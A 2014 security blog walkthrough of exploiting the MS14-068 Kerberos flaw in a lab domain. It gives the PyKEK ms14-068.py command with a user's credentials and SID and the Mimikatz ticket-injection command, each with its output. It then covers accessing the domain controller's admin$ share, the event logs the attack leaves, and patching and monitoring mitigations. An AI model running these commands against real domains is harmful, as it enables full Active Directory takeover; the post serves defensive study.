


    

Dec  07  2014

# Exploiting MS14-068 Vulnerable Domain Controllers Successfully with the Python Kerberos Exploitation Kit (PyKEK)

- By [Sean Metcalf](https://adsecurity.org/?author=2) in [Microsoft Security](https://adsecurity.org/?cat=11), [Technical Reference](https://adsecurity.org/?cat=2)

#### MS14-068 References:

- [AD Kerberos Privilege Elevation Vulnerability: The Issue](https://adsecurity.org/?p=525)
- [Detailed Explanation of MS14-068](https://adsecurity.org/?p=541)
- [MS14-068 Exploit POC with the Python Kerberos Exploitation Kit (aka PyKEK)](https://adsecurity.org/?p=660)
- [Detecting PyKEK Kerberos Packets on the Wire aka How the MS14-068 Exploit Works](https://adsecurity.org/?p=763)

After re-working my lab a bit, I set about testing the MS14-068 POC that Sylvain Monné posted to GitHub a few days ago. I configured a Windows 7 workstation with [Python 2.7.8](https://www.python.org/downloads/release/python-278/) and downloaded the[PyKEK zip](https://github.com/bidord/pykek/archive/master.zip) as well as the [Mimikatz zip](https://github.com/gentilkiwi/mimikatz/releases/) file.

The MS14-068.py Python script (part of PyKEK) can be run on any computer that has connectivity to the target Domain Controller.

I ran [PyKEK](https://adsecurity.org/?p=660) against a Windows Server 2008 R2 Domain Controller not patched for MS14-068 using Kali Linux as well as a domain-joined Windows 7 workstation.

**Note: All exploit stages can be executed without an admin account and can be performed on any computer on the network (including computers not domain-joined).

**Microsoft KB3011780 patches this issue.**
**

### **Updates:**

**12/13 Update:** Added a section on **How Does PyKEK Get a Forged PAC  into a TGT?** with information on how PyKEK generates the forged TGT (valid TGT with a forged PAC).

**12/8 Update:** I added a **Mitigation** section at the end of the post as well as events from a patched Domain Controller when attempting to exploit (in the events section).

**12/14 Update**: I successfully ran the exploit using a non-domain joined Windows computer on the network without admin credentials.

### **MS14-068 Exploit Issues with Windows Server 2012 & 2012/R2:**

*I also stood up one Windows Server 2012 and one Windows Server 2012 R2 Domain Controller in the same site as the two unpatched Windows Server 2008 R2 DCs. None of the Domain Controllers in my lab.adsecurity.org AD Forest are patched for MS14-068.

After successfully running the PyKEK script to generate the TGT, I was unable to get a TGS successfully to exploit the 2008 R2 DC. After shutting down the 2012 & 2012R2 DCs, I could use the forged TGT to get a TGS and access the targeted 2008 R2 DC (ADSDC02).

PyKEK is only sometimes successful when there is an unpatched DC and a patched DC in the same Active Directory site. The same behavior is noted when there is an unpatched Windows Server 2008 R2 DC and a Windows Server 2012 DC in the same site. Successful exploit depends on what DC PyKEK connects to.***

**

### **Staging the Attack:**

The targeted user account in this post is “Darth Sidious” (darthsidious@lab.adsecurity.org). Note that this user is a member of Domain Users and a Workstation group. This group membership stays the same throughout the activity in this post (I took the screenshot after exploiting the DC). Assume that this user is an authorized user on the network and wants to get Domain Admin rights to perform nefarious actions. The user already has a valid domain account and knows the password for the domain. This is no different from an attacker spearphishing this user and stealing their credentials as they get local admin rights on the computer.

Once the attacker has valid domain credentials (and local admin rights if Python install is required) on a computer on the network, they can leverage PyKEK to generate a forged TGT by performing standard communication with the target (unpatched) DC.

The [PyKEK](https://adsecurity.org/?p=660) ms14-068.py Python script needs some information to successfully generate a forged TGT:

- User Principal Name (UPN) [-u]: darthsidious@lab.adsecurity.org
- User Password [-p]: TheEmperor99!
- User Security IDentifier (SID) [-s]: S-1-5-21-1473643419-774954089-222232912

7-1110

- Targeted Domain Controller [-d]: adsdc02.lab.adsecurity.org

The SID can be found by running the “whoami” command while logged in as the target user.

You can also get this information from PowerShell by running :
*>  [Security.Principal.> WindowsIdentity]::GetCurrent( )*

As I noted in [my previous post on PyKEK](https://adsecurity.org/?p=660), the following group membership is included in the forged TGT:

- Domain Users (513)
- Domain Admins (512)
- Schema Admins (518)
- Enterprise Admins (519)
- Group Policy Creator Owners (520)

### **

Phase 1: Forging a TGT:
**
Here’s a screenshot of the exploit working in Kali Linux (1.09a)

After generating the ccache file containing the forged and validated TGT Kerberos ticket, the ccache file can be copied to a Windows computer to run Mimikatz.

It works well on Windows running Python as well (command is in bold & italics).

***> c:\Temp\pykek>ms14-068.py -u darthsidious@lab.adsecurity.org -p TheEmperor99! -s S-1-5-21-1473643419-774954089-222232912***

***>  7-1110 -d adsdc02.lab.adsecurity.org***
> [+] Building AS-REQ for adsdc02.lab.adsecurity.org… Done!
> [+] Sending AS-REQ to adsdc02.lab.adsecurity.org… Done!
> [+] Receiving AS-REP from adsdc02.lab.adsecurity.org… Done!
> [+] Parsing AS-REP from adsdc02.lab.adsecurity.org… Done!
> [+] Building TGS-REQ for adsdc02.lab.adsecurity.org… Done!
> [+] Sending TGS-REQ to adsdc02.lab.adsecurity.org… Done!
> [+] Receiving TGS-REP from adsdc02.lab.adsecurity.org… Done!
> [+] Parsing TGS-REP from adsdc02.lab.adsecurity.org… Done!

**>   [+] Creating ccache file ‘TGT_darthsidious@lab.adsecurity.org.ccache’… Done!**

Here’s the screenshot of the ms14-068 exploit working on Windows (does not require admin rights)..

I ran WireShark on the targeted Domain Controller. Here’s the pcap (zipped) of the network traffic from the PyKEK ms14-068.py script: [ADSecurityOrg-MS14068-Exploit-KRBPackets](https://adsecurity.org/wp-content/uploads/2014/12/ADSecurityOrg-MS14068-Exploit-KRBPackets.zip)

Note that I have generated a forged TGT with a single, stolen domain account.

The next step is to use this forged TGT, so I logon to a computer as the *local admin account* with network access to the targeted Domain Controller.

Whoami shows I am logged on as admin on the computer ADSWKWIN7.

Klist shows there are no Kerberos tickets in memory for this user (there wouldn’t be, this is a local admin account).

The PyKEK ms14-068.py Python script saves the forged TGT to a ccache file (TGT_darthsidious@lab.adsecurity.org.ccache) in the current working directory (c:\temp\pykek shown above)

### **How Does PyKEK Get a Forged PAC  into a TGT?**

The Python script performs a TGT request (Kerberos Authentication Service Request aka AS-REQ) and instead of requesting a TGT with a PAC (default AS-REQ), PyKEK requests a TGT with no PAC from the Domain Controller.

Once the script receives the valid TGT without a PAC from the DC, the script generates a PAC (with the group membership listed above) packages it in encrypted authorization data as part of a TGS request to the DC (Kerberos Ticket Granting Service Request aka TGS-REQ) to obtain another TGT (a new one with the PyKEK generated PAC).

“The vulnerable KDC will verify it with MD5 and give you another TGT with a PAC in it”.

This is the TGT that PyKEK saves to the ccache file used for stage 2.

Since PyKEK communicates with the Domain Controller for valid TGTs, the TGT is a valid ticket (other than the forged PAC it includes). To summarize, there are two TGTs involved in the process: the original one without a PAC as a result of the first AS-REQ and a second one the DC delivers in the TGS-REP with the PyKEK generated PAC.

*NOTE: The TGT is technically not modified by PyKEK since it is encrypted by the KDC account (KRBTGT). The process the script uses results in a valid TGT with the PAC PyKEK created that is accepted by an unpatched DC. The genius part of this is that PyKEK uses the Kerberos AS & TGS exchanges to forge a PAC and have the DC place it into a new user TGT. Then when the TGT is presented later on in Stage 2 for a valid TGS, the PAC is accepted and its values carried on into the new TGS for a Kerberos service in AD.

*

**Packet detail and additional information posted in the post “[PyKEK Kerberos Packets on the Wire aka How the MS14-068 Exploit Works](https://adsecurity.org/?p=763)“**

Benjamin Delpy’s [Mimikatz](http://blog.gentilkiwi.com/mimikatz) presentation at Passwords 2014 describes the MS14-068 exploit (slide below extracted from his presentation). You can watch Benjamin’s presentation [here](http://new.livestream.com/NTNU/passwords14/videos/70751388?t=1418474079423)(2 video from the top). I updated my ealier [MS14-068 post that describes the issue with PAC validation](https://adsecurity.org/?p=525) based on information Benjamin provided during this presentation.

(Thanks Banjamin for your continued efforts to make sure I get this right.  )

### **Phase 2: Injecting the forged TGT and gaining a valid TGS:**

After the forged Kerberos TGT ticket is generated, it’s time to inject it into the current user session using [Mimikatz](https://adsecurity.org/?p=556)(command is in bold & italics).

***> c:\Temp\pykek>c:\temp\mimikatz\mimikatz.exe “kerberos::ptc c:\temp\TGT_darthsidious@lab.adsecurity.org.ccache” exit***

> .#####.   mimikatz 2.0 alpha (x64) release “Kiwi en C” (Nov 20 2014 01:35:45)
> .## ^ ##.
> ## / \ ##  /* * *
> ## \ / ##   Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
> ‘## v ##’   http://blog.gentilkiwi.com/mimikatz             (oe.eo)
> ‘#####’                                     with 15 modules * * */

> mimikatz(commandline) # kerberos::ptc c:\temp\TGT_darthsidious@lab.adsecurity.org.ccache

> Principal : (01) : darthsidious ; @ LAB.ADSECURITY.ORG
> Data 0

> Start/End/MaxRenew: 12/7/2014 3:10:30 PM ; 12/8/2014 1:10:30 AM ; 12/14/2014 3:10:30 PM

> Service Name (01) : krbtgt ; LAB.ADSECURITY.ORG ; @ LAB.ADSECURITY.ORG
> Target Name  (01) : krbtgt ; LAB.ADSECURITY.ORG ; @ LAB.ADSECURITY.ORG
> Client Name  (01) : darthsidious ; @ LAB.ADSECURITY.ORG
> Flags 50a00000    : pre_authent ; renewable ; proxiable ; forwardable ;
> Session Key       : 0x00000017 – rc4_hmac_nt
> af5e7b47316c4cebae0a7ead04059799
> Ticket            : 0x00000000 – null              ; kvno = 2        […]
**>   * Injecting ticket : OK**
> mimikatz(commandline) # exit
> Bye!

Note that since I am injecting the forged TGT which states that I am a member of Domain Admins, Enterprise Admins, etc into my session, when this TGT is passed to an unpatched DC for a Kerberos service ticket (TGS), the service ticket will show I am a member of these groups. When the TGS is presented to a service, the user account is treated as if it is a member of these groups, though viewing the group membership shows the user is conspicuously absent. This enables an attacker to act as if they are a member of groups when they are not.

I ran WireShark on the targeted Domain Controller. Here’s the pcap (zipped) of the network traffic using the forged TGT ticket via [Mimikatz](https://adsecurity.org/?p=556)and connecting to the Domain Controller’s Admin$ share: [ADSecurityOrg-MS14068-Exploit-KRBPackets-TGTInjection-And-DC-AdminShare-Access](https://adsecurity.org/wp-content/uploads/2014/12/ADSecurityOrg-MS14068-Exploit-KRBPackets-TGTInjection-And-DC-AdminShare-Access.zip)

Once I have successfully injected the forged TGT into my session (remember, I am logged onto a domain-joined Windows 7 computer as the **local admin – not with AD domain credentials**), I leverage this to connect to the Domain Controller and gain access to the Active Directory database (ntds.dit).

Note: a local admin account is NOT required. This stage can be executed with any account and can be run from a PowerShell window.

### **Domain Controller Event Logs from the Attack:

**

#### **Unpatched Domain Controller Logs During the PyKEK MS14-068 Attack:**

Here are the event logs on the targeted Domain Controller when using the forged TGT to get a TGS in order to access the Domain Controller’s admin$ share and locate the AD database files:

**Event 4769** shows darthsidious@lab.adsecurity.org requesting a TGS Kerberos service ticket using the forged TGT.

**Event 4769** shows darthsidious@lab.adsecurity.org requesting a TGS Kerberos service ticket using the forged TGT.

**Event 4624 **shows darthsidious@lab.adsecurity.org using the TGS service ticket to logon to the target Domain Controller.

**Event 5140 **shows darthsidious@lab.adsecurity.org using the TGS service ticket to connect to the target Domain Controller’s Admin$ share (net use \\adsdc02.lab.adsecurity.org\admin$) which only an administrator has access.

**Event 4672 **shows darthsidious@lab.adsecurity.org successfully authenticated (and logged on to) the target Domain Controller which only an administrator has access.

*Note that this user has SeBackupPrivilege, SeRestorePrivilege, SeDebugPrivilege, SeTakeOwnership, etc **showing the user has full Admin access to this computer. It’s Game Over at this point.***

#### **MS14-068 Patched Domain Controller Logs During the PyKEK MS14-068 Attack:**

##### Here’s what it looks like when a client attempts to use a forged TGT to get a Kerberos service ticket (TGS) when communicating with a patched DC:

**Event 4769 **shows darthsidious@lab.adsecurity.org attempting to get a Kerberos service ticket (TGS) for a CIFS (SMB) share on the Domain Controller (adsdc01.lab.adsecurity.org). The TGS fails because the DC  (adsdc01.lab.adsecurity.org) is patched an logs this failure in the security event log as a failed 4769 event. .

**NOTE: This is the event Microsoft recommends you monitor closely after applying KB3011780 (the MS14-068 patch).**

**Event 4776 **shows an audit failure for the computer and the username logged into the computer. This event is associated with the **4769** event above. Since I was logged on as the local administrator account “admin” it shows in the log. This is a red flag. *However, I could have created a local admin account on the box with the same name as a Domain Admin in the domain and it may not be scrutinized as much. Check your logs!*

**T**his concludes the lesson on how to own an Active Directory forest in less than 5 minutes with only a user account and a connected Windows computer (and associated admin account).

### **Mitigations:**

1. **Patch all Domain Controllers** with KB3011780 in every AD domain. I uploaded a sample script for getting KB3011780 patch status for all Domain Controllers: [Get-DCPatchStatus](https://adsecurity.org/wp-content/uploads/2014/12/Get-DCPatchStatus.txt) (change file extension to .ps1)

2. [**UnPatched DCs]** Monitor event ID 4672 for users who are not members of domain-level admin groups ([default groups able to logon to Domain Controllers](https://adsecurity.org/?p=272) – this is why you shouldn’t use these default, built-in groups for delegation of administration):

    1. Enterprise Admins (admin on all DCs in the forest),
    2. Domain Admins
    3. Administrators
    4. Server Admins
    5. Backup Operators
    6. Account Operators
    7. Print Operators

    8. Other groups delegated in your environment to logon to Domain Controllers

3. **[Patched DCs],** monitor event id 4769 Kerberos Service Ticket Operation event which shows failed attempts to get Kerberos service tickets (TGS).

### **References:**

- [MS14-068 Kerberos Vulnerability Privilege Escalation POC Posted (PyKEK)](https://adsecurity.org/?p=660)
- [Mimikatz and Active Directory Kerberos Attacks](https://adsecurity.org/?p=556)
- [MS14-068: Active Directory Kerberos Vulnerability Patch for Invalid Checksum](https://adsecurity.org/?p=574)
- [Kerberos Vulnerability in MS14-068 Explained](https://adsecurity.org/?p=541)
- [MS14-068: Vulnerability in (Active Directory) Kerberos Could Allow Elevation of Privilege](https://adsecurity.org/?p=525)
- The Python script MS14-068 POC code: [Python Kerberos Exploitation Kit](https://github.com/bidord/pykek) (PyKEK)
- [Benjamin Delpy’s blog](http://blog.gentilkiwi.com/) ([Google Translate English translated](https://translate.google.com/translate?sl=fr&tl=en&js=y&prev=_t&hl=en&ie=UTF-8&u=http%3A%2F%2Fblog.gentilkiwi.com%2F&edit-text=) version)
- [Mimikatz GitHub repository](https://github.com/gentilkiwi/mimikatz)
- [Mimikatz Github wiki](https://github.com/gentilkiwi/mimikatz/wiki)
- [Mimikatz 2 Presentation Slides](http://blog.gentilkiwi.com/downloads/mimikatz-rmll.pdf) (Benjamin Delpy, July 2014)
- [All Mimikatz Presentation resources on blog.gentilkiwi.com](http://blog.gentilkiwi.com/presentations)
- [From MS14-068 to Full Compromise – Step by Step](https://www.trustedsec.com/december-2014/ms14-068-full-compromise-step-step/) [TrustedSec]

(Visited 28,422 times, 1 visits today)

- **  [ActiveDirectory](https://adsecurity.org/?tag=activedirectory), [CVE-2014-6324POC](https://adsecurity.org/?tag=cve-2014-6324poc), [DomainController](https://adsecurity.org/?tag=domaincontroller), [KaliLinux](https://adsecurity.org/?tag=kalilinux), [KB3011780](https://adsecurity.org/?tag=kb3011780), [KDC](https://adsecurity.org/?tag=kdc), [Kerberos](https://adsecurity.org/?tag=kerberos), [KerberosChecksumVulnerability](https://adsecurity.org/?tag=kerberoschecksumvulnerability), [KerberosHacking](https://adsecurity.org/?tag=kerberoshacking), [mimikatz](https://adsecurity.org/?tag=mimikatz), [MS14068](https://adsecurity.org/?tag=ms14068), [MS14068Exploit](https://adsecurity.org/?tag=ms14068exploit), [MS14068ExploitCode](https://adsecurity.org/?tag=ms14068exploitcode), [PAC](https://adsecurity.org/?tag=pac), [PoC](https://adsecurity.org/?tag=poc), [PowerShellCode](https://adsecurity.org/?tag=powershellcode), [PyKEK](https://adsecurity.org/?tag=pykek), [PythonKerberosExploitationKit](https://adsecurity.org/?tag=pythonkerberosexploitationkit)

-